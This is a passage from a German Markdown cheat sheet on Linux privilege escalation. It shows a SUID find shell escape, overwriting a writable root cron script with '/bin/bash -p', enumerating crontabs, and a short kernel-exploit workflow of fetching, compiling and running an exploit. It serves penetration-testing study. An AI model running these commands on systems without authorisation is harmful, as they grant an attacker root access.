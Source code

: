 
Beispiel (wenn `find` SUID ist):

```bash
find . -exec /bin/sh -p \; -quit
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Writable Cronjobs & Skripte
**Cronjobs** sind zeitgesteuerte Befehle. Wenn ein Cronjob als root läuft und das Skript, das er ausführt, für dich beschreibbar ist, kannst du den Inhalt ändern und eigenen Code ausführen.

```bash
# Zeigt die Liste der Cronjobs für den Benutzer root
crontab -l -u root

# Beispiel: Cronjob als root ändern
echo "/bin/bash -p" > /var/www/backup.sh

# crontab ausgeben
cat /etc/crontab    

# Suche nach Cronjobs, die als root laufen und beschreibbare Skripte ausführen
ls -la /etc/cron.*
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Kernel Exploits
Falls keine der einfacheren Methoden funktioniert, ist ein **Kernel-Exploit** oft der letzte Ausweg. Dies ist eine Schwachstelle im Kernel des Betriebssystems, die ausgenutzt wird, um Root-Rechte zu erlangen.

- **Kernel-Version ermitteln:** `uname -r`

- **Exploit finden:** Nutze Seiten wie **Exploit-DB** oder **GitHub**, um einen passenden Exploit für die Kernel-Version zu finden.

- **Exploit auf das Ziel kopieren:** Über `scp`, `wget` oder `curl`.

- **Kompilieren und Ausführen:** Kompiliere den Code (oft C-Code) und führe ihn aus.


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>
